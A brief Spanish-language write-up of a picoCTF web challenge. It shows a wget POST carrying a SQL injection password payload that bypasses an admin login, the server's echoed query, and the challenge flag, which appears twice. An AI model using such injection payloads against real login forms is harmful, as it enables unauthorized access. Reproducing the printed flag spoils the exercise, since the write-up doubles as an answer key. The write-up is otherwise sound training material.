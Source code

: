 

## Descripción
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## Solución
Hay que usar wget y hacer inyección sql para tratar de entrar como admin
```bash
┌─[✗]─[dantefx@dantefx-Inspiron5481]─[~]
└──╼ $wget https://jupiter.challenges.picoctf.org/problem/40742/login.php --post-data="debug=1&password=a'be'1'='1"  
--2022-10-18 11:30:38--  https://jupiter.challenges.picoctf.org/problem/40742/login.php
Resolviendo jupiter.challenges.picoctf.org (jupiter.challenges.picoctf.org)... 3.131.60.8
Conectando con jupiter.challenges.picoctf.org (jupiter.challenges.picoctf.org)[3.131.60.8]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: no especificado [text/html]
Grabando a: «login.php»

login.php               [ <=>                ]     164  --.-KB/s    en 0s      

2022-10-18 11:30:45 (49.2 MB/s) - «login.php» guardado [164]

┌─[✗]─[dantefx@dantefx-Inspiron5481]─[~]
└──╼ $cat login.php
<pre>password: a'be'1'='1
SQL query: SELECT * FROM admin where password = 'n'or'1'='1'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>┌─[dantefx@dantefx-Inspiron5481]─[~]
```

picoCTF{3v3n_m0r3_SQL_4424e7af}